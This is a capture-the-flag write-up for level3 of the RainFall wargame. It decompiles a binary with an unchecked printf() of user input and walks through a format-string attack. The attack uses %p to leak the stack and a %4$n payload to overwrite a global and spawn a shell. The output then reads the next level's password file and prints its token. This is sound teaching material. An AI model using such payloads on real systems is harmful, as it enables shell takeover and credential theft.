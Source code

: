 ## Basic analysis

As we see, **level3** binary prints out what is being fed to it via stdin:
~~~shell
.level3 
42 let me pass
42 let me pass
~~~
Let's make a secure copy of the executable and examine it with **Ghidra**. We will discover that **main()** is just calling **v()** and returns.  
**v()** is using **fgets()** to get the input from user, saves it into the premade **char xxx[520]** string and prints it using **printf()**. That is what we see as program execution.
~~~C
void main(void)

{
  v();
  return;
}

void v(void)

{
  char local_20c [520];
  
  fgets(local_20c,0x200,stdin);
  printf(local_20c);
  if (m == 0x40) {
    fwrite("Wait what?!\n",1,0xc,stdout);
    system("/bin/sh");
  }
  return;
}
~~~
That's not all of course - there is condition comparing variable **m** to number **64** (0x40 in hexa). If true, it will let us pass to next level.
Thus, we need to somehow modify the variable m. It is not defined in the scope of v(), nor passed through from main, so it must be a global variable.
We use **gdb**'s "info variables" to get its memaddress: **0x0804988c**

## Format string attack
**printf()** can be utilized for **format string attack** as described [HERE](https://ctf101.org/binary-exploitation/what-is-a-format-string-vulnerability/). We will force the insertion of value 64 into the **m** variable memory position by using printf's variadic nature.

**Step 1**: we find where in the stack is the variable read by fgets - this will be our way in. We do this by explouting printf to print us the memory:
~~~shell
level3@RainFall:~$ python -c 'print "AAAA" + " %p" * 10' | ./level3
AAAA 0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070
~~~
**0x41414141** is our "AAAA" input - AAAA is 41414141 in hex - on position number 4.

**Step 2**: We will craft the payload using **%[number]$n** formatter to precisely target the memory position. Variable m needs to be 64 bytes. Its memory address has four, so we add 60 bytes of stuff + the modifier. Like so:
~~~Shell
level3@RainFall:~$ python -c 'print "\x8c\x98\x04\x08" + "A" * 60 + "%4$n"' > /tmp/exploit
level3@RainFall:~$ cat /tmp/exploit - | ./level3
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Wait what?!
whoami
level4
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
~~~
